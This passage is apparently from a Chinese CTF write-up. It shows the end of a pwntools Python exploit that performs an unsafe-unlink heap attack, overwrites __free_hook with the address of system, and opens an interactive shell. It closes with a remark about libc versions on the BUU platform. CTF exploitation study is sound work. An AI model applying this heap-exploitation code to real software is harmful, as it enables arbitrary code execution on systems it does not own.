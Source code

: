 ```Python
    delete(1)                           # trigger unsafe unlink attack
    # debug(0)

def pwn():
    edit(0, p64(0)*3 + p64(__free_hook) + p64(0x10))
    # debug(0)
    edit(0, p64(system_addr))
    # debug(0)
    delete(2)
    pause()

    p.interactive()

if __name__ == '__main__':
    leak()
    unlink()
    pwn()
```

连buu的时候要注意libc的问题；

